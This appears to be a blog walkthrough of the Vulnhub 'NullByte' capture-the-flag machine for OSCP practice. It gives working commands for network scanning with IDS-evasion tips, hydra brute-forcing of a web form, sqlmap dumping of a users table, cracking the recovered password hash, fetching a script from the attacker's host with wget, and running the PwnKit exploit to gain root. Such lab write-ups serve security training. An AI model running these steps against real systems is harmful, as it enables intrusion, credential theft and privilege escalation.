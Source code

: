 ```yaml
---
title: NullByte Walkthrough
author: alex
date: Tue 14 Nov 18:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/2023-11-14-nullbyte-walkthrough/
---
```


Today I'm hacking into **NullByte**! This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Exiftool

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.10.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                 
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
 IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:2d:87:9b      1      60  PCS Systemtechnik GmbH                                          
192.168.1.48    08:00:27:4c:49:6b      1      60  PCS Systemtechnik GmbH       
``` 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.48
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
PORT      STATE SERVICE VERSION

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33720/tcp   status
|   100024  1          34821/tcp6  status
|   100024  1          46770/udp6  status
|_  100024  1          58651/udp   status

777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|   256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
|_  256 bc:f7:44:8d:79:6a:19:48:76:a3:e2:44:92:dc:13:a2 (ED25519)

33720/tcp open  status  1 (RPC #100024)

MAC Address: 08:00:27:4C:49:6B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```

Except for **port 80**, the other ports may look quite weird but for instance, **SSH** service is running on **port 777** instead of 22.

If we start open the address in our browser we can see this:

![01000111 01001111 01000100](/main.gif)

A good habit I have developed after many VMs is that images are worth analyzing. And here I was right! If we download the `.gif` and use `exiftool` on it, we get a weird string that might be a directory: `exiftool main.gif`

```
ExifTool Version Number         : 12.63
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2023:11:13 22:56:33+01:00
File Access Date/Time           : 2023:11:13 22:56:33+01:00
File Inode Change Date/Time     : 2023:11:13 22:56:34+01:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

So, let's search `http://192.168.1.48/kzMb5nVYJw`. Now we are prompted with a field asking for a key. I tried to find the answer by other means but **Brute Force** was the only way I found to keep going:

## Enumeration

```
sudo hydra 192.168.1.48 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -P /usr/share/wordlists/rockyou.txt -la -v
```

And we get the word **elite**. Now we are prompted with a fiend to look for employees. After looking around, I suspect that **IT IS CONNECTED TO THE DATABASE**. Let's check if **SQL Map** gives any result:

```
sudo sqlmap -u http://192.168.1.48/kzMb5nVYJw/420search.php?usrtosearch= --dbs
```

And sure it does:

```
[09:05:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10
back-end DBMS: MySQL >= 5.5
[09:05:19] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] seth
```

Let's dump the **seth** database:

```
sudo sqlmap -u http://192.168.1.48/kzMb5nVYJw/420search.php?usrtosearch= -D seth -dump all
```

Now we get some interesting stuff:

```
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

Another skill I have developed: spot a **base64** string straight away! So, let's head to [CyberChef](https://gchq.github.io/CyberChef/) and decode it:

```
c6d6bd7ebf806f43c76acc3681703b81
```

Well, spotting **MD5** hashes is another valuable skill! If we decode it with [CrackStation](https://crackstation.net/):

```
omega
```

Cool! We have credentials to **SSH** into the machine: `sudo ssh ramses@192.168.1.48 -p 777`. Now we are in!

This is now routine: `cd tmp` to be able to download scripts from our machine. `sudo service apache2 start` in our machine to be reachable. And, the first script I am downloadin it is going to be **Linux Exploit Suggester**. 

```
wget 192.168.1.23/Enumeration/les.sh
```

> **COMMAND** 
> 
> Your command will be different. I have everything organized in **/var/www/html/** so it is easier to find stuff.

## Exploitation

After some enumeration, I can see that this VM is vulnerable to **[PwnKit](https://github.com/ly4k/PwnKit)**:

```
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC

chmod 777 PwnKit

./PwnKit
```

And we get **root**! Now we can go to `/root/` and `cat` the **proof.txt**:

```
adf11c7a9e6523...

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

[I AM NOT DISCLOSING THE PUBLIC KEY, SORRY!]

-----END PGP PUBLIC KEY BLOCK-----







